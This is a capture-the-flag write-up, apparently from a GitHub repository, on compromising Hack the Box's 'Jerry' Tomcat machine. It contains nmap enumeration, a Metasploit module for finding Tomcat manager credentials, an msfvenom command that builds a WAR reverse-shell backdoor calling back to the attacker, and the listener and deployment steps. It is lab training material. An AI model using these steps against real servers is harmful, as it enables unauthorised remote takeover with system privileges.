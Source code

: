 # Machine: Jerry

## Overview

This write-up details my approach to compromising the "Jerry" machine on Hack the Box. The Jerry machine is a Windows Server 2012 R2 system running an Apache Tomcat server. Below are the steps I followed to successfully exploit the machine and obtain the necessary flags.

## Enumeration

Nmap Scan Results:

```bash
nmap -sV -sC -p8080 <IP> -oN jerry_nmap_scan.txt
```

The scan revealed the following open port:

```
PORT     STATE SERVICE VERSION
8080/tcp open  http    Apache Tomcat/Coyote JSP engine 1.1
|_http-favicon: Apache Tomcat
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Apache Tomcat/7.0.88
|_http-server-header: Apache-Coyote/1.1
```

## Exploitation

Using Metasploit to Find Tomcat Admin Credentials:

```bash
use auxiliary/scanner/http/tomcat_mgr_login
set RHOSTS <IP>
run
```

This module helped identify valid Tomcat manager credentials.

### Accessing Tomcat Manager:

I logged into the Tomcat Manager at http://jerry.htb:8080/manager/html using the discovered credentials. The manager page allows the deployment of WAR files.

### Creating a WAR Backdoor:

```bash
msfvenom -p java/jsp_shell_reverse_tcp LHOST=<MY IP> LPORT=80 -f war -o revshell.war
```

I verified the contents of the WAR file:

```bash
jar -xvf revshell.war
```

### Setting up a Multi/Handler Listener:

In Metasploit:

```bash
use exploit/multi/handler
set PAYLOAD java/jsp_shell_reverse_tcp
set LHOST <MY IP>
set LPORT 80
run
```

### Deploying the WAR Backdoor:

I uploaded revshell.war via the Tomcat Manager interface and accessed the deployed backdoor at http://jerry.htb:8080/revshell/fqsyuctsb.jsp. This provided a reverse shell with NT Authority privileges.

## Post-Exploitation

### Privilege Escalation:

Upon obtaining the reverse shell, I had NT Authority privileges, which is the highest privilege level on a Windows machine.

## Flag Capture:

Located and captured the user and root flags.

## Conclusion

Compromising the Jerry machine involved identifying an open port running Apache Tomcat, discovering valid credentials for the Tomcat manager, deploying a WAR backdoor, and obtaining a reverse shell. This exercise reinforced key concepts in web server exploitation and privilege escalation on Windows systems.

***
